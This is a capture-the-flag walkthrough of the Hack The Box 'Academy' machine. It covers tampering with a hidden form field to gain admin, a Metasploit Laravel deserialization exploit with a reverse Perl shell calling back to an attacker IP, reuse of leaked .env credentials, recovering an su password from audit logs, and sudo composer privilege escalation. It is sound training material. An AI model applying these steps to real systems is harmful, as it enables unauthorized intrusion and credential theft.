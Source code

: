 # Academy
## nmap -T3 -A -p- -o academy.nmap 10.10.10.215

[Nmap port scan][1]

## gobuster dir -u academy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o academy-dir.txt -t 50
[dirbuster output][2]


## Exploting web app

Looking into the source of the registration form
```html
 <form class="login_form" method="POST" autocomplete="off">
            <br/>
            <br/>
            <img src="images/logo.png" class="center" width="130" height="130">
            <br/>
            <br/>
            <table>
                <tr>
                    <td class="form_text" align="left">&nbsp;&nbsp;&nbsp;Username</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="text" id="uid" name="uid" /></td>
                </tr>
                <tr>
                    <td class="form_text" align="left"><br/>&nbsp;&nbsp;&nbsp;Password</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="password" id="password" name="password" /></td>
                </tr>
                <tr>
                    <td class="form_text" align="left"><br/>&nbsp;&nbsp;&nbsp;Repeat Password</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="password" id="confirm" name="confirm" /></td>
                </tr>
                <input type="hidden" value="0" name="roleid" />
            </table>
            <br/><br/>
            <input type="submit" class="button" value="Register"/> 
            </p>
        </form>
```

we can find an hidden field ***roleid***, using a proxy like burpsuite we can set this value to 1 so it give us
an admin account that we can use to login into admin.php

Inside the admin page we can see that there is some problem not fixed with ***dev-staging-01.academy.htb***
Here we can find a laravel log dump in which we can find the database creds 

```raw
DB_PORT "3306"

DB_DATABASE "homestead"

DB_USERNAME "homestead"

DB_PASSWORD "secret"
```

Plus there is a redis server with no password on port 6379

Looking at nmap seems that the port of mysql server is 33060 maybe this is the problem with laravel console (?).

Using metasploit with exploit/unix/http/laravel_token_unserialize_exec with this options:

```raw
options 

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     academy.htb                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.158     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

we get a shell as www-data launch `python3 -c "import pty;pty.spawn('/bin/bash')"` to get a bash tty and `export TERM='xterm'`.

Going into `/var/www/html/academy` there is an interesting file called `.env` that is used by laravel to define some options

```raw
cat .env
cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```
In this file there is a mysql password for account dev. 
Account for this machine are:

`21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n`

we can try to login into one of the by using this ***mySup3rP4s5w0rd!!***
After trying to list the files of the home directory seems the ***cry0l1t3*** has the user flag -> ***cry0l1t3:mySup3rP4s5w0rd!!*** does the trick

launch an http server to download linpeas inside the machine: `python3 -m http.server`

After linpeas runs the log show: 
```
[+] Checking for TTY (sudo/su) passwords in audit logs
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

Converting from HEX to ASCII the data field we obtain: `mrb3n_Ac@d3my!` -> ***mrb3n:mrb3n_Ac@d3my!***

## mrb3n

This user seems can run sudo with this capabilities: 

```raw
sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Escalate via [sudo + composer][3] give us the root 

![htbbadge](https://www.hackthebox.eu/badge/image/272787)

[//]: #links
[1]: academy.nmap
[2]: academy-dir.txt
[3]: https://gtfobins.github.io/gtfobins/composer/
